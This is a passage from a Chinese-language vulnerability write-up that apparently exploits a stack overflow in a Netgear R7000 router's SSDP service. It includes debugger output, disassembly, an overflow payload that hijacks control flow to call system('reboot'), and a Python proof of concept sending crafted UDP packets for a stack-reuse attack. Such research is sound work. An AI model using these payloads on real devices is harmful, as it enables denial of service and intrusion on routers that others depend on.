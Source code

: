 
最后检查程序的缓解措施。程序本身开启了NX，之前用过R7000的真机，设备开了ASLR
![](https://res.cloudinary.com/dozyfkbg3/image/upload/v1610083780/netgear/image_25.png)
在堆栈恢复前下一个断点，观察控制流转移情况，将PC指针控制为重启指令。通过 hook 的日志可以看到，ROP 利用链按照预期工作（由于模拟环境的问题，reboot 命令运行段错误了...）

```
gef➤ b *0x00025F40
Breakpoint 1 at 0x25f40

.text:00025F40                 ADD             SP, SP, #0x234
.text:00025F44                 ADD             SP, SP, #0x400
.text:00025F48                 LDMFD           SP!, {R4-R11,PC}

**.****text****:****0003E9DC** ****                LDR             R0, =aReboot_0 ; "reboot"
.text:0003E9E0                 BL              system

**payload如下：**
payload = (
    0x604 * b'a' +  # dummy
    p32(0x76d9d450) +  # v41
    (0x634 - 0x604 - 8) * b'a' +  # dummy
    p32(0x0003E9DC)  # system(reboot)
)

**固件模拟日志：**
ssdp_http_method_check(203):
ssdp_http_method_check(231):Http message error
Detaching from process 3477
rmmod: dhd.ko: No such file or directory
**reboot: rmmod dhd failed: No such file or directory**
**[0x0003e9e4] system('reboot') = 0**
```


综合目前的情况：

1. 目前可以控制`R4 - R11` 以及 `PC(R15)`寄存器
2. 开了 NX 不能用在栈上布置`shellcode`。
3. 有 ASLR，不能泄漏地址，不能使用各种 LIB 库中的符号和 `gadget`。
4. `strcpy()` 函数导致的溢出，payload 中不能包含 `\x00` 字符。



## 0x05 漏洞利用

路由器已启用ASLR缓解功能，我们可以使用ROP攻击绕过该功能。但是，我们通过使用对NULL字节敏感的**strcpy**来执行复制调用，这反过来又会阻止我们使用ROP攻击。因此，要利用包含NULL字节的地址，我们将需要使用堆栈重用攻击。即想办法提前将 ROP payload 注入目标内存。（`stack reuse`）
注意到recvfrom函数在接收 socket 数据时 buffer 未初始化，利用内存未初始化问题，我们可以向sub_1D020的堆栈中布置gadgets。构造如下 PoC，每个 payload 前添加 `\x00` 防止程序崩溃（strcpy遇到\x00截断，不会拷贝后面部分）。

```
#!/usr/bin/python3

import socket
import struct
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect(('192.168.2.2', 1900))
s.send(b'\x00' + b'A' * 0x1ff0)
s.send(b'\x00' + b'B' * 0x633)
s.close()
```
